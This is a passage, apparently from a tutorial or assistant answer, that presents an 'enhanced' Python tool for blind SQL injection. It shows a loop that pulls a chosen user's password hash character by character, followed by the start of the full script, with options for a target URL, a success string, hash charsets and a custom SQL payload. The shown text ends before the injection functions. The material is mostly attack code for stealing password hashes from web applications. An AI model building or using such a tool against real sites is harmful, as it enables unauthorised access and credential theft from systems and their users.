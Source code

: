 ```python
while True:
    user_id = get_input("> Enter a user ID to extract password hash (or type 'exit' to quit): ")
    if user_id.lower() == "exit":
        break

    try:
        if not invalid_user(user_id):
            user_password_length = password_length(user_id)
            print("\t[-] User {} hash length: {}".format(user_id, user_password_length))
            total_queries_taken()
            user_hash = extract_hash(charset, int(user_id), user_password_length)
            print("\t[-] User {} hash: {}".format(user_id, user_hash))
            total_queries_taken()
        else:
            print("\t[X] User {} does not exist!".format(user_id))
    except KeyboardInterrupt:
        break
```

The main loop has been updated to incorporate the new features and options. It now prompts the user to input a `user_id` to extract the password hash. The user can also type `exit` to quit the tool. The script continues to extract the hash character by character and display the total number of queries made during the process.

Below is the full script for the enhanced version of the Python tool:

```python
import requests
import sys
import argparse

# charsets for different hash types
CHARSETS = {
    "md5": "0123456789abcdef",  
    "sha1": "0123456789abcdef",  
    "base64": "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/", 
}

# user input function
def get_input(prompt, default=None):
    user_input = input(prompt)
    return user_input.strip() or default

# command line arguments
parser = argparse.ArgumentParser(description="SQL Injection Password Extraction Tool")
parser.add_argument("-t", "--target", help="Target URL", required=True)
parser.add_argument("-n", "--needle", help="Needle (success message) to identify successful login", default="Login successful!")
parser.add_argument("-c", "--charset", help="Charset for hash extraction", choices=CHARSETS.keys(), default="md5")
parser.add_argument("-p", "--payload", help="Custom SQL payload to inject (use {payload} placeholder for dynamic parts)", default=None)
args = parser.parse_args()

# variables
target = args.target
needle = args.needle
charset_name = args.charset
charset = CHARSETS[charset_name]
custom_payload = args.payload

print(f"Using charset: {charset_name} ({charset})")

total_queries = 0
```